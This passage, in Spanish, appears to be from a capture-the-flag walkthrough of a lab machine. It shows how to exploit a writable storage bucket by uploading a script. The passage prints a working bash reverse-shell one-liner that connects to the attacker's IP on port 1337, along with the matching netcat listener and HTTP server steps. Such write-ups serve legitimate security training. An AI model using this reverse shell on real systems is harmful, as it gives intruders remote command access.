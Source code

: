 <div style="text-align: center;">
  <img src="/assets/images/StartingPoint/three/intrusion3.png" alt="under" oncontextmenu="return false;">
</div>

Como podemos subir contenido al Bucket, nos podemos crear una Reverse Shell, entonces la máquina nos va a enviar una Bash a nuestra máquina como atacante.

**Reverse.sh**
```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.16.84/1337 0>&1
```

Subimos el Reverse.sh, nos montamos con `python3 -m http.server 8000` Un servidor HTTP, y nos ponemos en escucha con la herramienta `netcat` por el puerto 1337.

<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/three/intrusion4.png" alt="under" oncontextmenu="return false;">
</div>
